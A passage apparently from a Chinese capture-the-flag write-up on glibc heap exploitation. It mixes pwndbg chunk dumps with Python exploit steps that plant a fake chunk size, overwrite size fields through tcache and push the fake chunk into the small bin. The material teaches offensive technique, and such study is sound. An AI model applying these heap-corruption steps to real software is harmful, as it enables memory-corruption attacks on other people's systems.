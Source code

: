 ```pwndbg
Size: 0x10 (with flag bits: 0x10)

Allocated chunk | PREV_INUSE
Addr: 0x5ef482d91ff0
Size: 0x10 (with flag bits: 0x11)

Allocated chunk | PREV_INUSE | IS_MMAPED
Addr: 0x5ef482d92000
Size: 0x30 (with flag bits: 0x33) <- 这个0x33的byte就是提前布置的

Allocated chunk
Addr: 0x5ef482d92030
Size: 0x00 (with flag bits: 0x00)
```

为了提前布置数据，我们在泄漏数据之前加入这样一行代码：

```python
sla(b"> ", b'0'*0xd58 + b'3') # arrange heap layout. '3' is a valid size. take effect in line 74
```

这个神秘的偏移可以通过动态调试拿到。这个'3'也就是 fake chunk 的 size 位。

在解决了后向合并问题之后，我们还需要考虑前向合并问题。显然，只要释放堆块的 PREV_IN_USE bit 是 1，那 `free()` 就不会尝试合并前面的堆块。

于是我们可以写出第一个版本的代码：

```python
add(1, b'a'*0x48 + pack(0xd01))
free()
add(2, b'b') # tcache do not care how large the chunk it gives out (0xd01)
free()
add(1, b'a'*0x48 + pack(0x91))
sla(b"> ", b'0'*0xfff+b'2') # trigger malloc to the big-unsorted-bin-loop and put the fake chunk into small bin
```

在最后一个 `free()` 之前，位于 unsorted bin 中的那个目标堆块信息如下：

```pwndbg
pwndbg> bins
tcachebins
empty
fastbins
empty
unsortedbin
all: 0x56cefdc442f0 —▸ 0x56cefdc44380 —▸ 0x702f51e19ce0 (main_arena+96) ◂— 0x56cefdc442f0
smallbins
empty
largebins
empty

pwndbg> malloc_chunk 0x56cefdc442f0
Free chunk (unsortedbin) | PREV_INUSE
Addr: 0x56cefdc442f0
Size: 0x90 (with flag bits: 0x91)
fd: 0x56cefdc44380
bk: 0x702f51e19ce0

pwndbg> malloc_chunk 0x56cefdc442f0+0x90
Free chunk (unsortedbin) | PREV_INUSE
Addr: 0x56cefdc44380
Size: 0xc60 (with flag bits: 0xc61)
fd: 0x702f51e19ce0
bk: 0x56cefdc442f0
```

